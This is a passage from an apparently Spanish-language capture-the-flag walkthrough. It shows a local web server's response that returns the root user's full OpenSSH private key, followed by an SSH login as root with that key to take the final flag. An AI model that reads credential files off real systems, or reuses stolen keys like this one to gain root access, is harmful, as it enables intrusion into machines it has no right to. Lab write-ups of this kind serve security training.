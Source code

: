 ```bash
< Last-Modified: Mon, 17 Jun 2024 00:58:31 GMT
< Content-Length: 2602
< Accept-Ranges: bytes
< Date: Sat, 08 Mar 2025 13:09:13 GMT
< Server: Python/3.9 aiohttp/3.9.1
< 
-----BEGIN OPENSSH PRIVATE KEY-----
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
-----END OPENSSH PRIVATE KEY-----
* Connection #0 to host 127.0.0.1 left intact
```

Podemos utilizar esta llave para entrar al sistema como root y tomar la última flag.

```bash
❯ /usr/bin/ssh -i root.rsa root@10.10.11.38
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-196-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Sat 08 Mar 2025 01:10:05 PM UTC

  System load:           0.0
  Usage of /:            74.0% of 5.08GB
  Memory usage:          37%
  Swap usage:            0%
  Processes:             254
```